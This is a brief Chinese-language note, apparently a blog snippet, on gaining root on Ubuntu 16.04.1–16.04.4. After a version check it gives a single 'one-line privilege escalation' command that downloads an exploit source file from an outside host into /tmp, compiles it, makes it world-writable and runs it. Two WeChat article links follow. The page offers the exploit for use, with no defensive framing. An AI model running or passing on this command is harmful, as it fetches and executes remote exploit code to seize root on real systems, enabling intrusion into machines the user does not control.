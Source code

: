 #### 提权Ubuntu16.04.1-16.04.4
```
lsb_release -a 查看版本号

一句话提权
wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned
```

![image.png](https://upload-images.jianshu.io/upload_images/7373593-508fd5c1e90ae371.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


相关链接：

http://mp.weixin.qq.com/s?__biz=MzU5MjEzOTM3NA==&mid=2247485209&idx=1&sn=74199be057b75d14276fb6be264fea92&chksm=fe250218c9528b0e9b5b3330d3a2e02be068c91a9b81be4a587d6579fa2e043f0833ed13acb8&mpshare=1&scene=1&srcid=0322dIBu0v8LiSLXMCYuyLx5#rd

http://mp.weixin.qq.com/s?__biz=MzAwMTUyMjQ5OA==&mid=2650965604&idx=1&sn=166a2820b6148c79ad8275cf1f672559&chksm=812e4849b659c15f68ee18dfd91c7e83c8d846a7f633be53cd139cc6cfb6a71b8b414eb43e2e&mpshare=1&scene=1&srcid=0321Qh3nXBxeTHx3zYEJ5xuN#rd